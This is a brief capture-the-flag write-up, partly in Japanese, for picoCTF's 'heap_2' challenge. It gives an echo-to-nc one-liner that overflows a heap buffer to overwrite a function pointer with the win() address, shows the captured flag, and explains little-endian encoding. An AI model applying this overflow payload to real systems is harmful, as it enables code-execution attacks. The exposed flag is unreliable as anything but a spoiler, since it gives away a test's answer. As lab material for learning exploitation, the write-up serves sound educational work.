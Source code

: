# heap_2:binary Medium  
Can you handle function pointers?    
Additional details will be available after launching your challenge instance.  

# Solution  
バイナリとソースコードが渡される  
echo -e -n "2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\n3\n4\n" |nc mimas.picoctf.net 57974  

I have a function, I sometimes like to call it, maybe you should change it  

1. Print Heap  
2. Write to buffer  
3. Print x  
4. Print Flag  
5. Exit  

Enter your choice: Data for buffer:   
1. Print Heap  
2. Write to buffer  
3. Print x  
4. Print Flag  
5. Exit  

Enter your choice:   

x = �@  


1. Print Heap  
2. Write to buffer  
3. Print x  
4. Print Flag  
5. Exit  

Enter your choice: picoCTF{and_down_the_road_we_go_91218226}  

# 基礎知識  
echo  
文字列や変数の値を表示するコマンド   
リトルエンディアン  
数値の下位バイト（小さい桁）を先頭（低いアドレス）に置く方式  
例：０x4011a0　ー＞　a0　11　40  

# 考えたこと    
win関数を起動すれば良いことがコードを読むとわかった。echoコマンドで順に起動し、バッファオーバフローを用いてＸのアドレスを上書きする。その後、check_win関数を起動してＸのアドレスを実行することでwin関数が起動される。